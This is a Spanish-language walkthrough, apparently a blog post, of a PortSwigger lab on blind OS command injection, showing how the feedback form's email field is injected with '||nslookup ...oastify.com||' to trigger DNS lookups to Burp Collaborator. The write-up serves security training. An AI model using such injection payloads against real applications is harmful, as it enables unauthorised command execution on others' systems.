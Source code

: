 ```yaml
---
title: OS Command Injection Lab 4
date: 2024-12-01 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - OS Command Injection
tags:
  - OS Command Injection
  - Blind OS command injection with out-of-band interaction
image:
  path: /assets/img/OS-Command-Injection-Lab-4/Portswigger.png
---
```


## Skills

- Blind OS command injection with out-of-band interaction

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind OS Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. El `comando` se ejecuta de forma `asíncrona` y no tiene efecto en la `respuesta` de la aplicación. No es posible `redireccionar` la `salida` a una `ubicación` accesible. Sin embargo, podemos desencadenar `out-of-band interactions` con un `dominio externo`. Para resolver el `laboratorio`, debemos explotar la `vulnerabilidad` para realizar una `consulta DNS` a `Burp Collaborator`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/OS-Command-Injection-Lab-4/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/OS-Command-Injection-Lab-4/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/OS-Command-Injection-Lab-4/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/OS-Command-Injection-Lab-4/image_4.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard`, debido a que no recibimos `ninguna respuesta` que indique que estamos `inyectando comandos`, esta es la única forma que podemos utilizar para ello, debemos usar este `payload` en los diferentes `campos` para ver si son `inyectables`

```
csrf=zRp2nJC1bIBQPQcICpkP7l9cHlAfYlE8&name=test&email=||nslookup+t712dnvp65v6mtbksuisdlxe95fw3rrg.oastify.com||&subject=test&message=test
```

Si nos vamos a `Burpsuite Collaborator` nuevamente veremos que hemos obtenido `dos peticiones DNS`

![](/assets/img/OS-Command-Injection-Lab-4/image_5.png)
